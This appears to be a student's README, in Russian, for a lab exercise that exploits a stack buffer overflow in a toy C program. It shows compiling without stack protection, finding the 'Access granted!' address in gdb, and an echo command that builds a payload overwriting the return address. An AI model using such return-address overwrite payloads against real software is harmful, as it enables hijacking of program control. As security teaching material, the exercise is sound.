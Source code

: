 Небольшое объяснение к выполненной работе.

Чтобы выполнить задание, нужно определить два основных момента:
1 - Длина массива для ввода пароля (12 байт)
2 - Адрес строки "Access granted!"

Как я это выполнял.

Компилируем проект с нужными флагами gcc -o task2 task2.c -fno-stack-protector -no-pie
Запускаем проект через gdb отладчик gdb ./task2
Через disassemble ищем инструкцию, где выводится "Access granted!\n" и получаю адрес этой инструкции
Узнаю адрес возврата и создаю input.txt файл. Адрес возврата 0x4011d8 в формате little-endian будет использоваться последовательность байт \xd8\x11\x40\x00\x00\x00\x00\x00.
заполняю input.txt echo -ne "AAAAAAAAAAAAAAAABBBB\xd8\x11\x40\x00\x00\x00\x00\x00" > input.txt
Запускаю программу и перенапрвляю ввод из файла: ./task2 < input.txt
Получаю в результате выполнения программы нужный результат, представленный в скриншоте